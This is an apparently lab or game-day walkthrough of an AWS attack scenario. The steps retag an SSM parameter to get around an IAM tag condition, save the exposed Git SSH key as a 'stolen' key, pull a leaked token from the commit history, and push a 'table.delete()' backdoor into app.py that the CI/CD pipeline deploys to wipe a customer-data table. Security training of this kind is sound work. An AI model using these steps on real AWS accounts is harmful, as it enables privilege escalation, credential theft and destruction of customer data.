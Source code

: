 # **Scenario_8**

  Dashboard  <https://gameday-dashboard.s3.eu-central-1.amazonaws.com/index.html>

## **Configure your profile**

`aws configure --profile scenario8_<user_id>`

### **Get user policy**

`aws iam list-user-policies --user-name scenario8_<user_id> --profile scenario8_<user_id>`

`aws iam get-user-policy --user-name scenario8_<user_id> --policy-name scenario8-user-policy-<user_id> --profile scenario8_<user_id>`

**Note**: Note that the IAM policy attached to your user allows it to get a SSM parameters tagged with `Environment=sandbox`, and to manage tags tagged with `Environment=dev`.

`aws ssm describe-parameters --profile scenario8_<user_id>`

`aws ssm list-tags-for-resource --resource-type "Parameter" --resource-id "git_access_key_for_sc8_ro_user_<user_id>" --profile scenario8_<user_id>`

### **Change tags, get ssm parameter git_access_key**  

`aws ssm add-tags-to-resource --resource-type "Parameter" --resource-id "git_access_key_for_sc8_ro_user_<user_id>" --tags "Key=Environment,Value=sandbox" --profile scenario8_<user_id>`

`aws ssm get-parameter --name git_access_key_for_sc8_ro_user_<user_id> --query Parameter.Value --output text --profile scenario8_<user_id>`

## Step 3

Set up your local environment to clone the repository. In short:

- Copy the SSH key to your local machine (e.g. `.ssh/stolen_key`) and `chmod 700` it

- Use the following SSH configuration (in your `.ssh/config`):

```bash
Host <EC2_IP_ADDRESS>
 IdentityFile ~/.ssh/stolen_key
```

- Then, clone the repository using `git clone git@GIT_IP_ADDRESS:root/scenario8_<user_id>.git`  

Quick variant:  

- `aws ssm get-parameter --name git_access_key_for_sc8_ro_user_<user_id> --query Parameter.Value --output text --profile scenario8_<user_id> > stolen.key`

- `GIT_SSH_COMMAND='ssh -i stolen.key -o IdentitiesOnly=yes' git clone git@GIT_IP_ADDRESS:root/scenario8_<user_id>.git`

## Step 4

The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access token:  

`cd scenario8_<user_id>`  
`git log`  
`git show .....`

```diff
commit 0ca720ac2d27ae5a3a1b05ebe2c7f18aeba82b75 (HEAD -> main, origin/main, origin/HEAD)
Author: .....
Date:   .....

    buildspec.yml file - hardcoded keys removed

diff --git a/buildspec.yml b/buildspec.yml
index cce1afe..58059b8 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -8,9 +8,9 @@ phases:
     commands:
     - echo $LAMBDA_TASK_ROOT
     - echo "Get source from GitLab repository"
-    - git clone http://developer_<user_id>:<token>@<EC2_IP_ADDRESS>/root/scenario8_<user_id>.git
+    - git clone http://$USER:$TOKEN@$ADDRESS/root/scenario8_$USERID.git
     - echo "Building Docker image"
-    - docker build ./scenario8_<user_id> -t $ECR_REPOSITORY:latest
+    - docker build ./scenario8_$USERID -t $ECR_REPOSITORY:latest
   post_build:
     commands:
     - echo "Pushing Docker image to ECR"
```

## Step 5

These credentials you found belong to the user `developer_<user_id>`, who has pull and push access to this repository. Use this access to backdoor the application and delete table with the sensitive data that customers are sending to the API!

- Clone repository again with developer token:  

`git clone http://developer_<user_id>:<token>@<EC2_IP_ADDRESS>/root/scenario8_<user_id>.git`  

`cd scenario8_<user_id>`

- For instance, add a piece of code into app.py that delete targetdb-<user_id> table with data:

`table.delete()`

```diff --git a/app.py b/app.py
new file mode 100644
index 0000000..ed7fbfc
--- /dev/null
+++ b/app.py
@@ -0,0 +1,70 @@
import json
import boto3
from boto3.dynamodb.conditions import Attr
from decimal import Decimal

dynamodb = boto3.resource('dynamodb')

table = dynamodb.Table('targetdb-<user_id>')
+table.delete()
def handle(event):
```

- Commit the file and push it:

`git commit -am "some changes"`  

`git push`

Note that the application is automatically being built by a CI/CD pipeline in CodePipeline. After a few minutes, your backdoored application will be deployed, table deleted and your will receive the flag!
